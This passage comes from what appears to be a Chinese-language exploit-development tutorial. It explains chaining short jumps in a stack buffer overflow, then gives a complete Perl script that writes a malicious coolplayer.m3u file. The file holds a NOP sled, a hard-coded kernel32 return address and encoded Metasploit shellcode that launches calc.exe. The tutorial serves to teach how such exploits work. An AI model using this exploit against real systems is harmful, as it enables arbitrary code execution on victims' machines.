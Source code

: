 你可以看到我插入了两个短跳转。就像在最后一个例子中一样，当EIP重定向流回到缓冲区的开始时，NOP将滑向第一个短跳转。这一次，为了跳过EIP和随后的垃圾字符，短跳转是50个字节。这个跳转应该在下一个短跳转处（在几个NOP之前），然后在下一组垃圾字符和我们的NOP / shellcode之间跳100个字节。代码如下：

    #!/usr/bin/perl
     
    my $buffsize = 10000; # set consistent buffer size
     
    my $jmp1 = "\xeb\x32"; # 50 byte short jump to hop over EIP and garbage and into next short jump
    my $junk = "\x90" x (260 - length($jmp1)); # nops to slide into $jmp; offset to eip overwrite at 260
    my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
    my $garbage1 = "\xcc" x 45;
    my $jmp2 = "\x90\x90\x90\x90\x90\x90\xeb\x64"; # 100 byte short jump over garbage 2 and into NOPs/shellcode
    my $garbage2 = "\xcc" x 97;
    my $nops = "\x90" x 50;
     
    # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $junk.$jmp1.$eip.$garbage1.$jmp2.$garbage2.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";
